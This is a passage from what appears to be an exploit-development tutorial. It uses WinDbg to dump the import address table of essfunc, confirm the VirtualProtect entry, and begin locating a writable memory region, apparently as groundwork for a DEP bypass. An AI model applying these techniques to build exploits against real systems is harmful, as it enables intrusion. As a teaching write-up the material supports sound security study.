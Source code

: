 2. Dump the IAT and search for VirtualProtect:
```
dps essfunc+0x6000 L100
```
   
Output:
```
 62506090  764cb3a0 KERNEL32!AddAtomA
 62506094  764cb860 KERNEL32!FindAtomA
 62506098  7650d160 KERNEL32!GetAtomNameA
 6250609c  764d6570 KERNEL32!VirtualProtectStub
 625060a0  764d7b60 KERNEL32!VirtualQueryStub
```

3. Verify this is the correct function:
```
dd 0x6250609c L1
u poi(0x6250609c)
```
   
Output:
    
```
764d6570 8bff            mov     edi,edi
764d6572 55              push    ebp
764d6573 8bec            mov     ebp,esp
764d6575 5d              pop     ebp
764d6576 ff253cb85376    jmp     dword ptr [KERNEL32!_imp__VirtualProtect (7653b83c)]
KERNEL32!AppModelPolicy_GetPolicy_Internal:
764d657c 8bff            mov     edi,edi
764d657e 55              push    ebp
764d657f 8bec            mov     ebp,esp
```

We've confirmed 0x6250609c is the IAT entry for VirtualProtect.


## 5. Finding a Writable Memory Region

For the VirtualProtect call, the lpflOldProtect parameter requires a pointer to a writable memory location. We need to find such a location that is reliable and doesn't contain bad characters in its address. We can inspect the memory layout of loaded modules, like KERNEL32.DLL, to find writable sections.


1. First, find the base address of KERNEL32.DLL:

```
lm vm kernel32
```

Output
``` 
start    end        module name
764c0000 765b0000   kernel32   (deferred)
```

So, the base address is 0x764c0000.
